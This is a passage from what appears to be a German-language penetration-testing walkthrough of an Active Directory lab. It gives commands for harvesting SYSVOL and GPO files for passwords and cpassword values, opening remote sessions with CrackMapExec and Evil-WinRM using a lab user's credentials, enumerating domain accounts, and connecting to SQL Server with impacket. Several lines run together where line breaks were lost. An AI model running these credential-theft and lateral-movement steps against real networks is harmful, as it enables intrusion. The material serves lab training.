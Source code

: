 ### 4.3 Group Policy Exploitation

### GPO-Dateien analysieren

```bash
# Heruntergeladene GPO-Skripte untersuchencat script.ps1
cat secret.ps1
# Nach Credentials oder Konfigurationsschwachstellen suchengrep -i "password\|credential\|key" *.ps1
grep -i "invoke\|iex\|downloadstring" *.ps1
```

### SYSVOL-Enumeration für weitere GPOs

```bash
# Vollständige SYSVOL-Struktur erforschensmbclient //192.168.20.11/SYSVOL -U jon.snow -c "recurse ON; prompt OFF; mget *"# Policies-Ordner untersuchenfind . -name "*.xml" -exec grep -l "password\|cpassword" {} \;find . -name "*.pol" -exec strings {} \; | grep -i password
```

---

## Phase 5: Command & Control (C2)

### 5.1 PowerShell-Remoting via WinRM

### WinRM-Verbindungen testen

```bash
# Mit CrackMapExec WinRM testencrackmapexec winrm 192.168.20.0/24 -u jon.snow -p iknownothing
# Mit Evil-WinRM (Installation)gem install evil-winrm
# Evil-WinRM-Verbindungevil-winrm -i 192.168.20.11 -u jon.snow -p iknownothing
```

### PowerShell-Befehle über WinRM

```powershell
# In Evil-WinRM-SessionPS> Get-ADUser -Filter * -Properties * | Select Name,SamAccountName,Description
PS> Get-ADGroup -Filter * | Select Name,GroupScope,GroupCategory
PS> Get-ADComputer -Filter * | Select Name,OperatingSystem,LastLogonDate
# Lokale Gruppen-MitgliedschaftenPS> net localgroup administrators
PS> whoami /groups
```

### 5.2 SQL Server-Exploitation

### MSSQL-Verbindungen mit Impacket

```bash
# SQL Server-Verbindung testenimpacket-mssqlclient -windows-auth sql_svc@192.168.20.22
impacket-mssqlclient -windows-auth sql_svc@192.168.20.23
# Alternative: Mit kompromittierten Domain-Credentialsimpacket-mssqlclient -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@192.168.20.22
```
